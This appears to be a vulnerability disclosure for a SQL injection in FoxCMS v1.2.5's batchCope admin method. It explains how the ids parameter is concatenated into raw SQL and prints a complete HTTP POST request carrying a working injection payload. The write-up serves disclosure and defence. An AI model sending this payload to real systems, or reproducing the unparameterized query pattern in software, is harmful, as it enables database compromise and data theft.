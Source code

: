 # SQL Injection Vulnerability in FoxCMS

**Version: FoxCMS v1.2.5**

**Google Dork: N/A**

**Date: 05/13/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 8.0, PHP 7.3**

**Software Link: https://gitee.com/qianfox/foxcms**

**Description:** A SQL injection vulnerability exists in the `batchCope` method of the controller located at `app/admin/controller/Article.php`. Due to improper handling of the `ids` parameter, user input is directly embedded into a raw SQL query without validation or parameterization. This allows an authenticated attacker to inject arbitrary SQL statements, potentially leading to unauthorized access, extraction of sensitive data, or full compromise of the underlying database.

**code analysis**

The `batchCope` method retrieves the `ids` parameter from user input and directly concatenates it into a raw SQL query without any validation or parameter binding. This allows an attacker to inject arbitrary SQL code through the `ids` parameter, potentially leading to unauthorized access, data leakage, or modification of database contents.

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161945913.png)

**Payload used:**

```
POST /index.php/admin1738/Article/batchCope.html HTTP/1.1
Host: www.foxcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://www.foxcms.com
Connection: keep-alive
Referer: http://www.foxcms.com/index.php/admin1738/Article/index.html?columnId=28
Cookie: PHPSESSID=94901524f6ef7383bc9d9e2730738a3f
Priority: u=0

ids=1)+or+(select database())='foxcms'--+

```

Example：

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636029.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161700879.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161802423.png)

